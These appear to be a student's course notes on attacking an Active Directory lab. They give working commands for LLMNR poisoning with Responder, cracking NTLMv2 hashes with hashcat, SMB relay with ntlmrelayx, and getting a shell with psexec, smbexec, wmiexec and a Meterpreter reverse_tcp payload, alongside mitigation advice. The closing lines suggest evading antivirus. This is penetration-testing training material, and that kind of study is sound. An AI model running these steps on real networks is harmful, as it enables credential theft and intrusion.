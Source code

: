 # Attacking AD: Initial Attack Vectors

## LLMNR POISONING
### Link Local Multicast Name Resolution
(like DNS kindof)

From impacket, run **responder**
``` 
python /usr/share/responder/Responder.py -I eth0 -rdwv
```
> v for verbose

To capture the hashes, while running responder, go to the Windows machine and from Quick Access search and type the Linux IP 
e.g. 
`\\10.10.10.7`

That triggers a result on responder, including the `NTLMv2-SSP Hash` (e.g. for fcastle::MARVEL)

Can then provide the hash to **hashcat** to get the password 

> Better to run hashcat on our actual machine instead of the virtual machine, for more computing power

Enter the hashes into a file (one per line)
E.g.
```
gedit ntlmhash.txt
```
Enter:
```
fcastle::MARVEL:....hash...
```

Run 
```
hashcat --help | grep NTLM
	5500 | NetNTLMv1 / NetNTLMv1+ESS	| Network Protocols
	5600 | NetNTLMv2					| Network Protocols
	1000 | NTLM							| Operating System
```

We find out we need to use module 5600 as the hash we captured was NTLMv2
Run hashcat:

```
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

If we had run hashcat on Windows:
```
cd c:\users\alexia\desktop\hashcat-4.2.1
hashcat64.exe -m 5600 hashes4.txt rockyou.txt -O
```
- `-O` for optimise

Try to also create custom wordlists based on the season, year etc.

## LLMNR Poisoning Mitigation

**LLMNR**: Link-Local Multicast Resolution
is a protocol based on the DNS packet format that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local link

If LLMNR fails, it goes to NBT-NS and vice versa. Hence, need to disable both.
- Disable LLMNR and NBT-NS
	- LLMNR: Local Computer Policy > Computer Configuration > Administrative Templates > Network > Group Policy Editor > DNS client > select "Turn OFF Multicast Name Resolution"
	- NBT-NS: Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > "Disable NetBIOS over TCP/IP"

If no option to disable, best alternative mitigating action:
- Require Network Access Control (enable it)
	- i.e. cannot just plug into any port and join the network. Shut port down or don't let anyone who doesn't belong there
- Requirement of strong user passwords (complex and long)


***
## SMB Relay
**SMB** - Server Message Block
is a protocol for sharing files, printers, ports etc. b/w devices

> SMB typically runs on port 445

Instead of cracking hashes gathered by Repsonder, can relay them to specific machines and potentially gain access

Requirements:
- SMB signing must be disabled on the target 
- relayed user credentials must be admin on machine

SMB signing is a packet level protocol. If enabled, it will tell us the packet is not signed by the actual user, i.e. we won't be authenticated and the relay will not succeed

If SMB signing is disabled, it will not check for authentication

From W1, relay on W2
- we capture the credentials and hash from W1
- because frank castle is a local administrator for both machines, we can relay those credentials to W2 and gain access
- W2 must have SMB signing disabled for this attack to succeed

First, need to find out if SMB signing is disabled.
Can do with nessus, or other software or nmap (scan whole network)
```
sudo nmap --script=smb2-security-mode.nse -p445 10.10.10.0/24 
```

We find that the server 10.10.10.6 has `SMB enabled and required` (which is default for DC's / Servers) but both workstations (10.10.10.4 and 10.10.10.5) have `SMB enabled but not required` i.e. we can still attack them

add our targets to a targets.txt file (one IP per line)

Change responder configuration to SMB and HTTP to Off. We want to only listen for now and not respond.
```
gedit /etc/responder/Responder.conf
```

```
sudo /usr/share/responder/Responder.py -I eth0 -rwdv
```

now run
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

If we get an error cause a port is being used can check. E.g. with SMB port:
```
sudo lsof -i :445
```

To kill that process:
```
sudo kill -9 <PID>
```

To start an interactive session run:
```
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
this will give us access to the SMB process and we can access the SMB shell by listenting on the port that ntlmrelayx directs us to.
```
nc 127.0.0.1 11000
```
From there we get the SMB command shell. 
Type `help` to see the commands. 
Can type `shares` to see the different shares/folders we have access to 
Can use smb commands e.g. `use ADMIN$` or `use C$`
e.g. `use C$` gives us access to the C folder, `ls` to view the contents... etc.
Can also use other options with ntlmrelayx like `-c` to run commands, `-e` to execute something (like a shell) etc.


## SMB Relay Mitigation

### Enable SMB Signing on all devices
- Pro: completely stops the attack
- Con: can cause performance issues with file copies

### Disable NTLM authentication on network
- Pro: completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM anyway

### Account tiering
e.g. a domain admin is restricted to log into admin accounts, servers, DC's and not user accounts
- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
- Con: Enforcing policy may be difficult

### Local admin restriction
e.g. do not have local admin's
- Pro: can prevent a lot of lateral movement
- Con: potential increase in the amount of service desk tickets
***
## Gaining Shell Access

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/6003a23b2a984443bbd9abd80b89bf64.png?raw=true)

Need to also set the right payload
```
> set payload windows/x64/meterpreter/reverse_tcp
> set lhost eth0
```

ran the same attack for 10.10.10.4 (and zpark, Password2) as we had issues with the fcastle machine

used metasploit but didn't work. Instead used
```
sudo psexec.py marvel.local/zpark:Password2@10.10.10.4
```
got system!

Can also try and run (more obscure, more quiet):
```
sudo smbexec.py marvel.local/zpark:Password2@10.10.10.4
sudo wmiexec.py marvel.local/zpark:Password2@10.10.10.4
```

psexec far noisier than psexec. Try to use others and see what AV is running to then find out how to disable it

Get in quietly first..

